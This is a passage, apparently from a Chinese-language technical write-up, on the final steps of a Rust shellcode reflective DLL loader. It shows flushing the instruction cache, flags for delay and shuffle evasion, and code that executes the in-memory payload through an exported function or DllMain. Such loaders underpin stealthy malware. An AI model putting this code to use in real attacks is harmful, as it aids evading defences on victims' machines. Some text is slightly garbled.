   
  
每个部分的一个重要的最后一步是调用FlushInstructionCache以确保 CPU 看到对内存所做的更改：  
  

```
(far_procs.FlushInstructionCache)(-1, null_mut(), 0);
```

  
  
执行payload  
  
最后，将有效载荷精心映射到内存中后，我们就可以执行它了。  
  
执行的功能（以及 shuffle 和 sleep 开关）取决于在 shellcode 生成期间存储在有效载荷中的标志的值：  
  

```
const DELAY_FLAG: u32 = 0b0001;
const SHUFFLE_FLAG: u32 = 0b0010;
const UFN_FLAG: u32 = 0b0100;

const HASH_KEY: usize = 5381;

pub structFlags {
    pub delay: bool,
    pub shuffle: bool,
    pub ufn: bool,
}
```

  
  
如果为真，我们将在有效载荷中运行用户定义函数。否则，我们将坚持使用以下方式ufn调用有效载荷：DllMainDLL_PROCESS_ATTACH  
  

```
if flags.ufn {
    // UserFunction address = base address + RVA of user function
    let user_fn_addr = get_export_addr(base_addr_ptr as _, function_hash).unwrap();

    #[allow(non_snake_case)]
    let UserFunction = transmute::<_, UserFunction>(user_fn_addr);

    // execution with user data passed into the shellcode by the generator
    UserFunction(user_data, user_data_len);
} else {
    let dll_main_addr = base_addr_ptr as usize
        + (*module_nt_headers_ptr).OptionalHeader.AddressOfEntryPoint as usize;

    #[allow(non_snake_case)]
    let DllMain = transmute::<_, DllMain>(dll_main_addr);

    DllMain(base_addr_ptr as _, DLL_PROCESS_ATTACH, module_base_ptr as _);
}
```

  
  
媒体  
  